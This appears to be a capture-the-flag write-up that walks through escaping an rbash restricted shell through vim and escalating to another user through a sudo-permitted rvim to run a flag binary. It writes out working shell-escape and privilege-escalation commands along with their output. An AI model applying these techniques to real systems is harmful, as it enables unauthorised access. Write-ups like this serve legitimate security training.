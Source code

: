 ![description](images/description.png)

Upon connecting to the server, I tried running ls and saw that there's a flagReader file.

By trying to run it, we see that we're in a restricted environment and the error messages show that we're running in rbash.
![rbash output](images/rbash.png)

To escape rbash you can run the following in vim:
:set shell=/bin/sh
:shell

Lets see if there's setuid on the flagReader file:

$ ls -al flagReader
---S--x--- 1 topsecretuser secretuser 8768 Feb 25 08:42 flagReader

flagReader is executable by secretuser, so lets try to find a way to execute things as secretuser:

First I tried listing all files that are setuid to run as secretuser:
find / -user secretuser -perm -4000 -exec ls -ldb {} \; 2> /dev/

apparently no other binary will allow us to run as secretuser

Now lets see if there's anything that sudo will allow us to run with higher privileges:

$ sudo -l
Matching Defaults entries for ctfuser on
    ip-172-31-31-196.us-west-2.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctfuser may run the following commands on
        ip-172-31-31-196.us-west-2.compute.internal:
    (ALL) NOPASSWD: /usr/bin/sudo -l
    (secretuser) NOPASSWD: /usr/bin/rvim

So this means we can run rvim as secretuser:
$ sudo -u secretuser rvim

rvim doesn't allow you to run shell commands, so we can't use the same shell spawning technique as before. However, rvim does allow you to run python code. Because of this we can just execute flagReader with python: 

:py3 import subprocess
:py3 print(subprocess.check_output(['/home/ctfuser/flagReader']))

and we get the flag:
flag{rVim_is_no_silverbullet!!!111elf}
![flag](images/flag.png)